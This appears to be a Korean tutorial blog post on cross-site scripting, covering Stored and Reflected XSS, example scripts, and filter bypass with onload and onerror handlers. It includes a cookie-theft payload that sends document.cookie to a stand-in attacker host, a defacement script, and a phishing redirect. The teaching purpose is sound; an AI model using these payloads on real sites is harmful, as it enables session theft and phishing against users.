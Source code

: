 ## XSS

클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에 해당 스크립트를 실행할 수 있습니다. 공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의 기능을 수행할 수 있습니다.
대표적으로 Stored XSS와 Reflected XSS가 있습니다.

<img src="https://velog.velcdn.com/images/silvergun8291/post/3f2faccd-2571-46bf-a3ca-1eba7980daae/image.png">

<br>

## Stored XSS

Stored XSS는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS입니다. 대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드하는 방식이 있습니다.

<br>

## Reflected XSS

Reflected XSS는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다. 대표적으로 검색창에서 스크립트를 포함해 검색하는 방식이 있습니다.
Reflected XSS는 Stored XSS와는 다르게 URL과 같은 이용자의 요청에 의해 발생하기 때문에, 타 이용자가 악성 스크립트가 포함된 링크에 접속하도록 유도해야 합니다.

<br>

## XSS 스크립트의 예시

#### 쿠키 및 세션 탈취 공격 코드

```javascript
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

#

#### 페이지 변조 공격 코드

```javascript
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

#

#### 위치 이동 공격 코드

```javascript
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

<br>


## XSS 필터링 우회

여러 방법중에 이벤트 핸들러 속성을 이용한 방법을 알아보면

### onload 이벤트 핸들러

해당 태그가 요청하는 데이터 로드에 성공하면 이벤트 핸들러를 실행합니다.

```html
<img src="https://dreamhack.io/valid.jpg" onload="alert(document.domain)">
```

데이터 로드가 성공하도록 유도해서 뒤에 코드를 실행시킬 수 있습니다.

#

### onerror 이벤트 핸들러

해당 태그가 요청한느 테이터 로드가 실패하면 이벤트 핸들러를 실행합니다.

```html
<img src="valid.jpg" onerror="alert(document.domain)">
```

데이터 로드가 실패하도록 유도해서 뒤에 코드를 실행시킬 수 있습니다.
